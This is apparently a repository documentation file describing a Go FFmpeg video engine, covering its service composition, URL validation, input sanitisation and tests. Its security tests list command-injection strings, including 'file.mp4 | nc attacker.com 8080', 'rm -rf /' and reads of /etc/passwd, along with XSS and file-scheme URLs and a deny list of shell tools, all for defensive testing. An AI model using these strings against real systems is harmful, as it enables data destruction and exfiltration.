





# VideoCraft Video Engine - FFmpeg Integration & Service Composition

The video engine layer represents the pinnacle of VideoCraft's video generation capabilities, implementing secure FFmpeg command construction, comprehensive security controls, and sophisticated service orchestration for complex video processing workflows.

## 🎬 Video Engine Architecture



## 📁 Video Engine Package Structure

```
internal/core/video/
├── composition/           # Service composition and dependency injection
│   └── composer.go       # Service container and lifecycle management
├── engine/               # FFmpeg video generation engine
│   ├── command.go        # FFmpeg command construction and execution
│   └── security.go       # Security validation and injection prevention
├── models/               # Domain models (planned)
├── pipeline/             # Processing pipeline (planned)
└── processing/           # Video processing logic (planned)
```

## 🎯 Service Composition Layer

### Comprehensive Service Container

The composition layer implements sophisticated dependency injection with proper service lifecycle management:



### Service Container Implementation

```go
type Services struct {
    FFmpeg        FFmpegService
    Audio         AudioService
    Video         VideoService
    Image         ImageService
    Transcription TranscriptionService
    Subtitle      SubtitleService
    Storage       StorageService
    Job           JobService
}

func NewServices(cfg *app.Config, log logger.Logger) *Services {
    // Initialize core services without dependencies first
    audioService := audio.NewService(cfg, log)
    videoService := video.NewService(cfg, log)
    imageService := image.NewService(cfg, log)
    transcriptionService := transcription.NewService(cfg, log)
    ffmpegService := engine.NewService(cfg, log)
    storageService := storageServices.NewService(cfg, log)
    
    // Initialize services with dependencies
    subtitleService := subtitle.NewService(cfg, log, transcriptionService, audioService)
    
    // Initialize job service with all dependencies including media services
    jobService := queue.NewService(cfg, log, ffmpegService, subtitleService, storageService, 
        audioService, videoService, imageService)
    
    return &Services{
        FFmpeg:        ffmpegService,
        Audio:         audioService,
        Video:         videoService,
        Image:         imageService,
        Transcription: transcriptionService,
        Subtitle:      subtitleService,
        Storage:       storageService,
        Job:           jobService,
    }
}

func (s *Services) Shutdown() {
    if s.Transcription != nil {
        s.Transcription.Shutdown()
    }
}
```

### Service Interface Definitions

Clean interface abstractions for all service dependencies:

```go
// FFmpeg service for video generation
type FFmpegService = engine.Service

// Media processing services
type AudioService = audio.Service
type VideoService = video.Service
type ImageService = image.Service

// AI and subtitle services
type TranscriptionService = transcription.Service
type SubtitleService = subtitle.Service

// Infrastructure services
type StorageService = storageServices.Service
type JobService = queue.Service
```

## ⚙️ FFmpeg Video Engine

### Advanced Command Construction

The engine implements sophisticated FFmpeg command building with comprehensive security controls:



### FFmpeg Service Interface

```go
type Service interface {
    // Core video generation methods
    GenerateVideo(ctx context.Context, config *models.VideoConfigArray, progressChan chan<- int) (string, error)
    GenerateVideoWithSubtitles(ctx context.Context, config *models.VideoConfigArray, subtitleFilePath string, progressChan chan<- int) (string, error)
    
    // Command building and execution
    BuildCommand(config *models.VideoConfigArray) (*FFmpegCommand, error)
    Execute(ctx context.Context, cmd *FFmpegCommand) error
}

type FFmpegCommand struct {
    Args       []string
    OutputPath string
}

type service struct {
    cfg *app.Config
    log logger.Logger
}
```

### Video Generation Implementation

```go
func (s *service) GenerateVideo(ctx context.Context, config *models.VideoConfigArray, progressChan chan<- int) (string, error) {
    s.log.Info("Starting video generation")
    
    // Build FFmpeg command with security validation
    cmd, err := s.BuildCommand(config)
    if err != nil {
        return "", errors.FFmpegFailed(fmt.Errorf("failed to build command: %w", err))
    }
    
    s.log.Debugf("Generated FFmpeg command: %s %s", s.cfg.FFmpeg.BinaryPath, strings.Join(cmd.Args, " "))
    
    // Execute with timeout
    ctx, cancel := context.WithTimeout(ctx, s.cfg.FFmpeg.Timeout)
    defer cancel()
    
    ffmpegCmd := exec.CommandContext(ctx, s.cfg.FFmpeg.BinaryPath, cmd.Args...)
    
    // Setup progress tracking
    if progressChan != nil {
        stderr, err := ffmpegCmd.StderrPipe()
        if err != nil {
            return "", errors.FFmpegFailed(err)
        }
        
        // Parse progress in goroutine
        go s.parseProgress(stderr, progressChan)
    }
    
    // Execute command
    if err := ffmpegCmd.Run(); err != nil {
        return "", errors.FFmpegFailed(err)
    }
    
    s.log.Infof("Video generation completed: %s", cmd.OutputPath)
    return cmd.OutputPath, nil
}
```

### Command Building with Security

```go
func (s *service) BuildCommand(config *models.VideoConfigArray) (*FFmpegCommand, error) {
    if len(*config) == 0 {
        return nil, fmt.Errorf("no video projects provided")
    }
    
    // Security validation: Check all URLs in configuration
    if err := s.validateAllURLsInConfig(config); err != nil {
        return nil, fmt.Errorf("security validation failed: %w", err)
    }
    
    project := (*config)[0]
    builder := newCommandBuilder()
    
    // Find background video element
    var backgroundVideo *models.Element
    for _, element := range project.Elements {
        if element.Type == elementTypeVideo {
            backgroundVideo = &element
            break
        }
    }
    
    if backgroundVideo == nil {
        return nil, fmt.Errorf("no background video element found")
    }
    
    // Collect media elements
    audioElements := s.collectAudioElements(project)
    imageElements := s.collectImageElements(project)
    totalDuration := s.calculateTotalDuration(audioElements)
    
    // Add inputs with security protocols
    builder.addInput("-y") // Overwrite output
    builder.addInput("-protocol_whitelist", "file,http,https,tcp,tls")
    
    // Background video with loop
    loopsNeeded := int(totalDuration/backgroundVideo.Duration) + 1
    builder.addInput("-stream_loop", fmt.Sprintf("%d", loopsNeeded), "-i", backgroundVideo.Src)
    
    // Audio inputs
    for _, audio := range audioElements {
        builder.addInput("-i", audio.Src)
    }
    
    // Image inputs
    for _, image := range imageElements {
        builder.addInput("-i", image.Src)
    }
    
    // Build filter complex with scene timing
    sceneTiming := s.generateFallbackTiming(audioElements)
    filterComplex := s.buildFilterComplexWithSceneTiming(project, audioElements, imageElements, sceneTiming, totalDuration)
    
    if filterComplex != "" {
        builder.addArg("-filter_complex", filterComplex)
    }
    
    // Map outputs
    if len(imageElements) > 0 {
        builder.addArg("-map", fmt.Sprintf("[overlay_%d]", len(imageElements)-1))
    } else {
        builder.addArg("-map", "0:v")
    }
    
    if len(audioElements) > 0 {
        builder.addArg("-map", "[final_audio]")
    }
    
    // Set duration and output settings
    builder.addArg("-t", fmt.Sprintf("%.2f", totalDuration))
    s.addOutputSettingsForProject(builder, project)
    
    // Generate secure output path
    outputPath := s.generateOutputPathForProject(project)
    builder.addArg(outputPath)
    
    return &FFmpegCommand{
        Args:       builder.args,
        OutputPath: outputPath,
    }, nil
}
```

## 🛡️ Advanced Security Layer

### Multi-Layer Security Architecture

The security layer implements comprehensive protection against various attack vectors:



### URL Validation Implementation

```go
func (s *service) ValidateURL(rawURL string) error {
    // Allow empty URLs (will be handled by other validation layers)
    if rawURL == "" {
        return nil
    }
    
    // Early rejection of data URIs (most common injection vector)
    if err := s.checkForDataURI(rawURL); err != nil {
        return err
    }
    
    // Character-based injection detection
    if err := s.checkForInjectionChars(rawURL); err != nil {
        return err
    }
    
    // Path traversal detection
    if err := s.checkForPathTraversal(rawURL); err != nil {
        return err
    }
    
    // URL structure validation and protocol checking
    return s.validateURLStructureAndProtocol(rawURL)
}

func (s *service) checkForDataURI(rawURL string) error {
    lowerURL := strings.ToLower(rawURL)
    
    // Check for dangerous URI schemes
    dangerousSchemes := []string{"data:", "javascript:", "vbscript:", "file:"}
    
    for _, scheme := range dangerousSchemes {
        if strings.HasPrefix(lowerURL, scheme) {
            s.logSecurityViolation("URL validation failed", map[string]interface{}{
                "url":            rawURL,
                "violation_type": "protocol_violation",
                "reason":         fmt.Sprintf("Protocol %s not allowed", scheme),
            })
            return errors.New("protocol not allowed")
        }
    }
    
    return nil
}
```

### Command Injection Prevention

```go
var (
    // Prohibited characters that could be used for command injection
    prohibitedCharsRegex = regexp.MustCompile(`[;|` + "`" + `$(){}]`)
    
    // Path traversal patterns for directory navigation attacks
    pathTraversalRegex = regexp.MustCompile(`\.\.\/|\.\.\\`)
    
    // Allowed URL protocols for security
    allowedProtocols = map[string]bool{
        "http":  true,
        "https": true,
    }
    
    // Dangerous commands that should be rejected after sanitization
    dangerousCommands = map[string]bool{
        "rm": true, "cat": true, "ls": true, "chmod": true, "chown": true,
        "sudo": true, "su": true, "bash": true, "sh": true, "cmd": true,
        "powershell": true, "wget": true, "curl": true, "nc": true, "netcat": true,
    }
)

func (s *service) checkForInjectionChars(rawURL string) error {
    if prohibitedCharsRegex.MatchString(rawURL) {
        s.logSecurityViolation("URL validation failed", map[string]interface{}{
            "url":            rawURL,
            "violation_type": "command_injection",
            "reason":         "URL contains prohibited characters",
        })
        return errors.New("URL contains prohibited characters")
    }
    return nil
}

func (s *service) SanitizeInput(input string) (string, error) {
    original := input
    
    // Remove prohibited characters
    sanitized := prohibitedCharsRegex.ReplaceAllString(input, "")
    
    // Clean path traversal sequences
    sanitized = pathTraversalRegex.ReplaceAllString(sanitized, "")
    
    // Split by spaces and keep only the first token (before any command)
    tokens := strings.Fields(sanitized)
    if len(tokens) > 0 {
        sanitized = tokens[0]
    }
    
    // Remove extra whitespace
    sanitized = strings.TrimSpace(sanitized)
    
    // If the entire input was malicious content, reject it
    if sanitized == "" && original != "" {
        return "", errors.New("input contains only malicious content")
    }
    
    // Additional check: reject if sanitized result is a dangerous command
    if dangerousCommands[strings.ToLower(sanitized)] {
        return "", errors.New("input contains only malicious content")
    }
    
    return sanitized, nil
}
```

### Comprehensive Configuration Validation

```go
func (s *service) validateAllURLsInConfig(config *models.VideoConfigArray) error {
    urlCount := 0
    
    for projectIdx, project := range *config {
        for sceneIdx, scene := range project.Scenes {
            for elementIdx, element := range scene.Elements {
                if element.Src != "" {
                    urlCount++
                    
                    // Create context for better error reporting
                    elementContext := fmt.Sprintf("project[%d].scene[%d].element[%d](%s)",
                        projectIdx, sceneIdx, elementIdx, element.Type)
                    
                    // Basic URL validation
                    if err := s.ValidateURL(element.Src); err != nil {
                        return fmt.Errorf("security validation failed for %s: %w", elementContext, err)
                    }
                    
                    // Domain allowlist validation
                    if err := s.ValidateURLAllowlist(element.Src); err != nil {
                        return fmt.Errorf("security validation failed for %s: %w", elementContext, err)
                    }
                }
            }
        }
    }
    
    // Log successful validation for monitoring
    s.log.WithFields(map[string]interface{}{
        "urls_validated": urlCount,
        "projects":       len(*config),
    }).Info("All URLs passed security validation")
    
    return nil
}
```

## 📊 Advanced Progress Tracking

### Real-Time FFmpeg Progress Parsing

```go
func (s *service) parseProgress(stderr io.ReadCloser, progressChan chan<- int) {
    defer close(progressChan)
    defer stderr.Close()
    
    scanner := bufio.NewScanner(stderr)
    var totalDuration float64
    
    // Regular expressions for parsing FFmpeg output
    durationRegex := regexp.MustCompile(`Duration: (\d{2}):(\d{2}):(\d{2})\.(\d{2})`)
    timeRegex := regexp.MustCompile(`time=(\d{2}):(\d{2}):(\d{2})\.(\d{2})`)
    
    for scanner.Scan() {
        line := scanner.Text()
        s.log.Debugf("FFmpeg output: %s", line)
        
        // Parse total duration from the beginning
        if totalDuration == 0 {
            if matches := durationRegex.FindStringSubmatch(line); len(matches) == 5 {
                hours, _ := strconv.Atoi(matches[1])
                minutes, _ := strconv.Atoi(matches[2])
                seconds, _ := strconv.Atoi(matches[3])
                centiseconds, _ := strconv.Atoi(matches[4])
                
                totalDuration = float64(hours*3600+minutes*60+seconds) + float64(centiseconds)/100
                s.log.Debugf("Total duration parsed: %.2f seconds", totalDuration)
            }
        }
        
        // Parse current time progress
        if totalDuration > 0 {
            if matches := timeRegex.FindStringSubmatch(line); len(matches) == 5 {
                hours, _ := strconv.Atoi(matches[1])
                minutes, _ := strconv.Atoi(matches[2])
                seconds, _ := strconv.Atoi(matches[3])
                centiseconds, _ := strconv.Atoi(matches[4])
                
                currentTime := float64(hours*3600+minutes*60+seconds) + float64(centiseconds)/100
                progress := int((currentTime / totalDuration) * 100)
                
                // Cap progress at 100%
                if progress > 100 {
                    progress = 100
                }
                
                // Send progress update
                select {
                case progressChan <- progress:
                    s.log.Debugf("Progress update: %d%%", progress)
                default:
                }
            }
        }
    }
    
    if err := scanner.Err(); err != nil {
        s.log.Errorf("Error reading FFmpeg stderr: %v", err)
    }
}
```

## 🎬 Video Processing Pipeline

### Scene-Based Video Composition



### Filter Complex Generation

```go
func (s *service) buildFilterComplexWithSceneTiming(project models.VideoProject, audioElements, imageElements []models.Element, sceneTiming []models.TimingSegment, totalDuration float64) string {
    var filters []string
    
    // Audio concatenation
    s.addAudioConcatenationFilters(&filters, audioElements)
    
    // Image overlays with timing based on actual audio analysis
    currentInput := s.addImageOverlayFilters(&filters, imageElements, audioElements, sceneTiming)
    
    return strings.Join(filters, ";")
}

func (s *service) addAudioConcatenationFilters(filters *[]string, audioElements []models.Element) {
    if len(audioElements) > 1 {
        audioInputs := make([]string, len(audioElements))
        for i := range audioElements {
            audioInputs[i] = fmt.Sprintf("[%d:a]", i+1) // +1 because 0 is background video
        }
        audioConcat := fmt.Sprintf("%sconcat=n=%d:v=0:a=1[concatenated_audio]",
            strings.Join(audioInputs, ""),
            len(audioElements))
        *filters = append(*filters, audioConcat)
        *filters = append(*filters, "[concatenated_audio]apad=pad_dur=2[final_audio]")
    } else if len(audioElements) == 1 {
        *filters = append(*filters, "[1:a]apad=pad_dur=2[final_audio]")
    }
}

func (s *service) addImageOverlayFilters(filters *[]string, imageElements, audioElements []models.Element, sceneTiming []models.TimingSegment) string {
    currentInput := videoInputRef
    
    for i, image := range imageElements {
        // Use scene timing from audio analysis
        var startTime, endTime float64
        if i < len(sceneTiming) {
            startTime = sceneTiming[i].StartTime
            endTime = sceneTiming[i].EndTime
        } else {
            // Fallback if we have more images than timing segments
            startTime = float64(i) * 5.0
            endTime = startTime + 5.0
        }
        
        s.log.Debugf("Image %d overlay timing: %.2fs - %.2fs (duration: %.2fs)",
            i, startTime, endTime, endTime-startTime)
        
        // Scale image - use correct input index for images with :v selector
        imageInputIndex := len(audioElements) + 1 + i
        scaleFilter := fmt.Sprintf("[%d:v]scale=500:500[scaled_img_%d]",
            imageInputIndex, i)
        *filters = append(*filters, scaleFilter)
        
        // Overlay with timing based on actual audio duration
        overlayFilter := fmt.Sprintf("[%s][scaled_img_%d]overlay=%d:%d:enable='between(t\\,%f\\,%f)'[overlay_%d]",
            currentInput, i, image.X, image.Y, startTime, endTime, i)
        *filters = append(*filters, overlayFilter)
        
        currentInput = fmt.Sprintf("overlay_%d", i)
    }
    
    return currentInput
}
```

### Subtitle Integration with Progressive Features

```go
func (s *service) GenerateVideoWithSubtitles(ctx context.Context, config *models.VideoConfigArray, subtitleFilePath string, progressChan chan<- int) (string, error) {
    s.log.Info("Starting video generation with subtitles")
    s.log.Debugf("Subtitle file: %s", subtitleFilePath)
    
    if len(*config) == 0 {
        return "", fmt.Errorf("no video projects provided")
    }
    
    project := (*config)[0]
    audioElements := s.collectAudioElements(project)
    totalDuration := s.calculateTotalDuration(audioElements)
    
    // Build FFmpeg command with subtitles
    cmd, err := s.buildCommandWithSubtitleFileAndDuration(config, subtitleFilePath, totalDuration)
    if err != nil {
        return "", errors.FFmpegFailed(fmt.Errorf("failed to build command with subtitles: %w", err))
    }
    
    s.log.Debugf("Generated FFmpeg command with subtitles: %s %s", s.cfg.FFmpeg.BinaryPath, strings.Join(cmd.Args, " "))
    
    // Execute command with timeout
    ctx, cancel := context.WithTimeout(ctx, s.cfg.FFmpeg.Timeout)
    defer cancel()
    
    ffmpegCmd := exec.CommandContext(ctx, s.cfg.FFmpeg.BinaryPath, cmd.Args...)
    
    // Setup progress tracking
    if progressChan != nil {
        stderr, err := ffmpegCmd.StderrPipe()
        if err != nil {
            return "", errors.FFmpegFailed(err)
        }
        
        // Parse progress in goroutine
        go s.parseProgress(stderr, progressChan)
    }
    
    // Execute command
    if err := ffmpegCmd.Run(); err != nil {
        return "", errors.FFmpegFailed(err)
    }
    
    s.log.Infof("Video generation with subtitles completed: %s", cmd.OutputPath)
    return cmd.OutputPath, nil
}

func (s *service) addSubtitleFilter(filters *[]string, currentVideo string, subtitleFilePath string) string {
    s.log.Infof("Adding subtitle overlay: %s", subtitleFilePath)
    
    if currentVideo == videoInputRef {
        *filters = append(*filters, fmt.Sprintf("[0:v]ass='%s'[subtitled_video]", subtitleFilePath))
    } else {
        *filters = append(*filters, fmt.Sprintf("[%s]ass='%s'[subtitled_video]", currentVideo, subtitleFilePath))
    }
    
    return "subtitled_video"
}
```

## 🔧 Configuration

### Video Engine Configuration

```yaml
ffmpeg:
  binary_path: "ffmpeg"          # FFmpeg binary location
  probe_path: "ffprobe"          # FFprobe binary location
  timeout: "30m"                 # Maximum processing time
  threads: 0                     # CPU threads (0 = auto)
  preset: "medium"               # Encoding preset (fast, medium, slow)
  
video:
  output_format: "mp4"           # Default output format
  default_crf: 23                # Constant Rate Factor (quality)
  high_quality_crf: 18           # High quality CRF
  default_resolution: "1920x1080" # Default output resolution
  
processing:
  max_duration: 1800             # 30 minutes maximum
  buffer_duration: 2.0           # Audio buffer in seconds
  overlay_scale: "500:500"       # Default image overlay size
  
security:
  allowed_protocols: ["http", "https"]
  allowed_domains: []            # Empty = allow all
  max_url_length: 2048
  validate_urls: true
  sanitize_inputs: true
  
progress:
  update_interval: "1s"          # Progress update frequency
  timeout_duration: "30m"       # Progress timeout
  buffer_size: 1024              # stderr buffer size
```

## 🛡️ Security Features

### Multi-Layer Protection

1. **URL Validation**:
   - Protocol allowlist (HTTP/HTTPS only)
   - Domain allowlist support
   - Malicious pattern detection
   - Data URI rejection

2. **Command Injection Prevention**:
   - Character filtering
   - Path traversal protection
   - Command sanitization
   - Input validation

3. **Resource Protection**:
   - Processing timeouts
   - Memory limits
   - File size limits
   - Concurrent processing limits

4. **Audit & Monitoring**:
   - Security violation logging
   - Structured audit trails
   - Real-time monitoring
   - Alerting capabilities

## 📈 Performance Characteristics

### Optimization Features

- **Efficient Command Building**: Minimal FFmpeg arguments for optimal performance
- **Progress Tracking**: Real-time progress updates without performance impact
- **Memory Management**: Controlled memory usage during processing
- **Concurrent Processing**: Worker pool for multiple simultaneous videos
- **Resource Monitoring**: CPU and memory usage tracking

### Performance Metrics

```go
type EngineMetrics struct {
    // Processing metrics
    VideosGenerated    int64         `json:"videos_generated"`
    AverageProcessTime time.Duration `json:"average_process_time"`
    ErrorRate          float64       `json:"error_rate"`
    
    // Resource usage
    MemoryUsage        int64         `json:"memory_usage_bytes"`
    CPUUsage           float64       `json:"cpu_usage_percent"`
    
    // Security metrics
    SecurityViolations int64         `json:"security_violations"`
    URLsValidated      int64         `json:"urls_validated"`
}
```

## 🧪 Testing Strategy

### Security Testing

```go
func TestEngineService_SecurityValidation(t *testing.T) {
    maliciousURLs := []string{
        "javascript:alert('xss')",
        "data:text/html,<script>alert('xss')</script>",
        "file:///etc/passwd",
        "http://localhost/admin",
        "https://example.com/../../../etc/passwd",
        "http://192.168.1.1/internal",
    }
    
    service := NewService(cfg, logger.NewNoop())
    
    for _, maliciousURL := range maliciousURLs {
        t.Run(maliciousURL, func(t *testing.T) {
            err := service.ValidateURL(maliciousURL)
            assert.Error(t, err, "Should reject malicious URL: %s", maliciousURL)
        })
    }
}

func TestEngineService_CommandInjectionPrevention(t *testing.T) {
    injectionAttempts := []string{
        "test.mp4; rm -rf /",
        "video.mp4 && cat /etc/passwd",
        "file.mp4 | nc attacker.com 8080",
        "input.mp4 `whoami`",
        "media.mp4 $(id)",
    }
    
    service := NewService(cfg, logger.NewNoop())
    
    for _, attempt := range injectionAttempts {
        t.Run(attempt, func(t *testing.T) {
            sanitized, err := service.SanitizeInput(attempt)
            if err != nil {
                // Input was completely malicious
                assert.Error(t, err)
            } else {
                // Input was sanitized
                assert.NotContains(t, sanitized, ";")
                assert.NotContains(t, sanitized, "|")
                assert.NotContains(t, sanitized, "&")
                assert.NotContains(t, sanitized, "`")
                assert.NotContains(t, sanitized, "$")
            }
        })
    }
}
```

### Integration Testing

```go
func TestEngineService_VideoGeneration(t *testing.T) {
    config := &models.VideoConfigArray{
        {
            Scenes: []models.Scene{{
                ID: "scene1",
                Elements: []models.Element{
                    {
                        Type: "audio",
                        Src:  "https://example.com/audio.mp3",
                        Duration: 30.0,
                    },
                    {
                        Type: "image",
                        Src:  "https://example.com/image.jpg",
                        X:    100,
                        Y:    100,
                    },
                },
            }},
            Elements: []models.Element{
                {
                    Type: "video",
                    Src:  "https://example.com/background.mp4",
                    Duration: 60.0,
                },
            },
            Quality: "high",
            Width:   1920,
            Height:  1080,
        },
    }
    
    service := NewService(cfg, logger.NewNoop())
    
    // Build command
    cmd, err := service.BuildCommand(config)
    require.NoError(t, err)
    assert.NotEmpty(t, cmd.Args)
    assert.NotEmpty(t, cmd.OutputPath)
    
    // Verify security
    for _, arg := range cmd.Args {
        assert.NotContains(t, arg, ";")
        assert.NotContains(t, arg, "|")
        assert.NotContains(t, arg, "&")
    }
}
```

---

**Related Documentation:**
- [Service Composition](composition/CLAUDE.md)
- [Video Engine](engine/CLAUDE.md)
- [Core Services](../services/CLAUDE.md)
- [Media Services Integration](../media/CLAUDE.md)